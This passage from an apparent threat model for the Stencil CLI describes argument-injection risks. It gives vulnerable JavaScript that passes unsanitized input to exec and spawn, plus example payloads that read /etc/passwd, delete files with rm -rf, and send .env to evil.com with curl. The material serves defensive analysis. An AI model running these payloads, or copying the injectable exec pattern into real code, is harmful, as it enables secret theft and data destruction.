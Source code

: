 **DREAD Score: 38.5/50 - HIGH**

#### CLI

**Threat #13: Argument injection**
- **Category**: Tampering
- **Description**: Malicious injection of command-line arguments into the Stencil CLI to execute unintended operations, access unauthorized files, or manipulate the build process. This can occur when user input is improperly sanitized before being passed to CLI commands, or when build scripts dynamically construct CLI arguments from untrusted sources.

**Attack Scenarios:**
1. **Build script injection**: Malicious arguments injected through build configurations
2. **CI/CD pipeline exploitation**: Compromised environment variables affecting CLI arguments
3. **Plugin argument manipulation**: Third-party plugins passing malicious arguments
4. **Dynamic argument construction**: Unsafe construction of CLI commands from user input

**Example Vulnerable Code:**
```javascript
// Vulnerable build script
const stencilConfig = JSON.parse(process.env.STENCIL_CONFIG || '{}');

// VULNERABLE - No argument sanitization
const command = `stencil build --config ${stencilConfig.configPath} --output ${stencilConfig.outputDir}`;

// VULNERABLE - Direct argument injection
exec(command, (error, stdout, stderr) => {
  if (error) {
    console.error(`Error: ${error}`);
    return;
  }
  console.log(stdout);
});

// VULNERABLE - User-controlled file paths
function buildWithCustomConfig(userProvidedConfig) {
  const args = [
    'build',
    '--config',
    userProvidedConfig,  // VULNERABLE - No validation
    '--serve',
    '--watch'
  ];
  
  spawn('stencil', args);
}
```

**Example Attack Payloads:**
```bash
# Environment variable injection
STENCIL_CONFIG='{"configPath": "config.ts; cat /etc/passwd #", "outputDir": "dist"}'

# Argument injection via config path
userProvidedConfig = "config.ts --serve --watch --host 0.0.0.0 --port 8080; rm -rf /important-files; #"

# Command injection through build arguments
stencil build --config "config.ts; curl -X POST https://evil.com/steal -d @.env; #"

# File path manipulation
stencil build --config ../../sensitive-config.ts --output /tmp/stolen-build

# Plugin argument injection
```